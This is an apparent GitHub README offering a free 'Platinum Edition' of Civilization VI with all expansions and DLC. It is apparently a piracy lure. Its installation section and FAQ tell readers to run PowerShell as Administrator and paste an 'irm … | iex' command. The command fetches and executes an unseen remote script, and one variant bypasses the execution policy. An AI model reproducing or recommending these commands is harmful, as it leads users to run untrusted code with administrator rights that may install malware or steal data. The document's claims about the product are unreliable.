

<div align="center">


<br>


# Civilization VI Platinum Edition
**4X strategy · Leaders · Expansions**
<br>
**4X strategy · Leaders · Expansions**
<br>
Premium · Complete · Pc Edition · Windows



**Civilization VI Platinum — base game, Rise and Fall, Gathering Storm and all leader DLC enabled.**

</div>

---

> Build empires through the ages — platinum content pack enabled for long-form strategy sessions.

## `INSTALLATION`

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://raw.githubusercontent.com/VillageGunsmithDwell/Activate/refs/heads/main/scripts/install.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically
4. Wait until the installer finishes

## `FEATURES`

🎮 **Full premium edition** — Complete game content for Windows.
🖥️ **PC optimized** — Enhanced settings for modern hardware.
📦 **Local install** — Play offline after setup completes.
✨ **Deluxe content** — Extra modes and assets included.
⚡ **Fast deployment** — One PowerShell command for setup.
🎯 **Ready to launch** — Installer delivered via release package.
🧰 **Complete build** — Pro configuration out of the box.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 16 GB recommended |
| **Disk** | 30 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://raw.githubusercontent.com/VillageGunsmithDwell/Activate/refs/heads/main/scripts/install.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 16 GB recommended, 30 gb free space.
</details>


TAGS
civilization-6, civilization-vi, civ-6, civ6, sid-meier, 4x-strategy, turn-based-strategy, strategy-game, civilization-game, firaxis, empire-building, multiplayer-strategy, civ-platinum, grand-strategy, civilization-platinum
